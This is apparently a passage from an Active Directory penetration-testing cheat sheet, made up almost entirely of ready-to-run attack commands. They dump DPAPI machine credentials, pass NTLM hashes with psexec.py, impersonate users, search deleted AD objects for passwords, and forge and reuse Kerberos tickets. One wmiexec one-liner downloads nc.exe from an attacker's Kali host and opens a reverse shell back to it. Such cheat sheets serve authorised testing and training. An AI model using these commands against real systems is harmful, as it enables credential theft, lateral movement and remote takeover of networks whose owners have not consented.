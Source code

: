 or 


.\SharpDPAPI.exe machinecredentials

psexec.py Administrator@10.10.10.10 -hashes LMHASH:NTHASH

Impersonating Credentials 

# if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred

# ... action
Invoke-RevertToSelf

Enumerating AD Recycle Bin Group

Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

#Now check for users passwords. might come in handy sometimes
Get-ADObject -filter { SAMAccountName -eq "UserName" } -includeDeletedObjects -property *

RCE using wmiexec

proxychains wmiexec.py -debug -nooutput domain/username:'password'@TARGET_ip "powershell.exe Invoke-WebRequest -Uri 'http://KALI_ip/nc.exe' -OutFile 'C:\Windows\System32\spool\drivers\color\nc.exe'; cmd.exe /c C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe KALI_IP 9001"

Kerberos Ticketing on Linux

#Create a TGT using KNIT 
kinit username@steins.localn

# Login using kerberos 
KRB5CCNAME=/tmp/krb5cc_0 python wmiexec.py -k -no-pass steins.local/username@target

#When you havea hash but NTLM is disbaled 
ktutil -k kerbticket_path add -p username@steins.local -e arcfour-hmac-md5 -w 49623ccc820122ab49b3f0f571b77186 --hex -V 5

#Create a TGT 
kinit -t kerbticket_path username@steins.local

#Login using Wmiexec by kerberos auth
KRB5CCNAME=/tmp/krb5cc_0 python wmiexec.py -k -no-pass steins.local/username@target

Converting kirbit to ccache

ticket_converter.py Administrator.kirbi Administrator.ccache
